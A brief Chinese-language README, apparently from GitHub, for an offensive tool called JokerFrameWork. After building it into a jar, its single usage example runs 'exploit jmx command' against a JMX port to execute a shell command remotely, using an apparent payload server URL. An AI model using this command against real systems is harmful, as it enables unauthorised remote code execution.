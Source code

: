 # JokerFrameWork

最简单的使用方法：

编成jar文件

```
exploit jmx command -t 127.0.0.1:23333 -cmd "ls -al" -i http://127.0.0.1:9999
```

目前的效果：

![](./img/Xnip2019-12-16_15-03-13.jpg)
